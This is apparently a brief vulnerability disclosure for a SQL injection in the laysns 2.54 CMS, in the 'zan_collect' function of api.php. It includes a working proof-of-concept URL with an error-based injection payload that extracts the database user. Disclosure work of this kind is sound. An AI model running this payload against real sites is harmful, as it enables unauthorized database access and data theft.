



# laysns2.54_sqlInjection

The vulnerability is in application/index/api.php file, "zan_collect" function

 
line 153 exist a sql methed, parameter $zan_collect will be the table name.

the parameter $zan_collect come from the array $data,we can control it.

poc:
/index/api/zan_collect?id=1&type=1&zan_collect=comment where uid=1 and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a)--+

success:

